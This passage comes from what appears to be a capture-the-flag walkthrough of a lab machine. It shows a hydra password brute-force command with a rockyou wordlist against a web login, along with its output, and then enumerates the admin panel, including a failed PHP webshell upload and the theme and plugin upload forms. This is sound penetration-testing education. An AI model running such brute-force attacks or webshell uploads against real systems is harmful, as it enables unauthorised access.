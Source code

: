```

oxdf@hacky$ hydra -l '' -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt sea.htb http-post-form "/loginURL:password=^PASS^:Wrong" -I
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-12 15:00:17
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://sea.htb:80/loginURL:password=^PASS^:Wrong
[STATUS] 422.00 tries/min, 422 tries in 00:01h, 14343976 to do in 566:31h, 16 active
[STATUS] 421.00 tries/min, 1263 tries in 00:03h, 14343135 to do in 567:50h, 16 active
[STATUS] 417.29 tries/min, 2921 tries in 00:07h, 14341477 to do in 572:49h, 16 active
[80][http-post-form] host: sea.htb   password: mychemicalromance
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.

```

### Upload Theme

#### Admin Panel Enumeration

It is technically possible to SSH now with this password, but I don’t have the username to log in with, so I’ll explore the admin panel. On entering the password, the main page is loaded, but with a bunch of extra buttons / notifications:

![image-20240812152538171](/img/image-20240812152538171.png)

Clicking “Settiongs” loads a form:

![image-20240812152610597](/img/image-20240812152610597.png)

I can edit content and create pages. HTML injection and XSS is very do-able via this function, but that doesn’t buy me much at this point.

The “Files” menu has an upload option:

![image-20240812152917440](/img/image-20240812152917440.png)

If I try an PHP webshell, it fails:

![image-20240812152909491](/img/image-20240812152909491.png)

The “Themes” page has a bunch of themes that can be installed, including the existing one:

![image-20240812153022347](/img/image-20240812153022347.png)

At the bottom there’s a form to add a custom module:

![image-20240812153038398](/img/image-20240812153038398.png)

The “Plugins” page is similar, with the same form at the bottom. The “Security” page offers a configuration to change the login URL, the password, and a few other configurations.
